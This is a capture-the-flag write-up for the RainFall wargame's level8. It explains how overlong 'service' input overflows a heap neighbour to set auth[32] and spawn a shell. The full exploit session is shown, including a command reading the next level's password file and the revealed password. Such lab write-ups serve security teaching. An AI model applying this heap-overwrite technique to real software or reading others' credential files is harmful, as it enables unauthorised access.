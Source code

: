 # level8

The program loops infinitely and do this steps:

- The program prints two pointers, `auth` and `service` which are `NULL` at beginning.
- The program reads from stdin using `fgets`.
- Then the program performs a serie of conditionnal call of `malloc`, `strcpy`, `strdup` functions.
- Finally, the program runs a shell if `auth[32]` is not equal to `zero`

## Goal
Modify the value of `auth[32]` to get a shell.

## Step 1

```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```
- `auth` points to `0x804a008`
    - `0x804a008` contains what is after `auth `, in the input if lenght is <= 30 bytes
- `service` points to `0x804a018`
    - `0x804a018` contains what is after `servic` without size check (contains `e` here) 


### Solution
Because `service` is stored after `auth` in memory, we can write many characters in `service` to overwrite `auth[32]`.

## Step 2
Make `login` input to verify if auth[32] is not equal to `zero` and run a shell.

## Exploit
```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
servicblablablablablablablablablabla
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
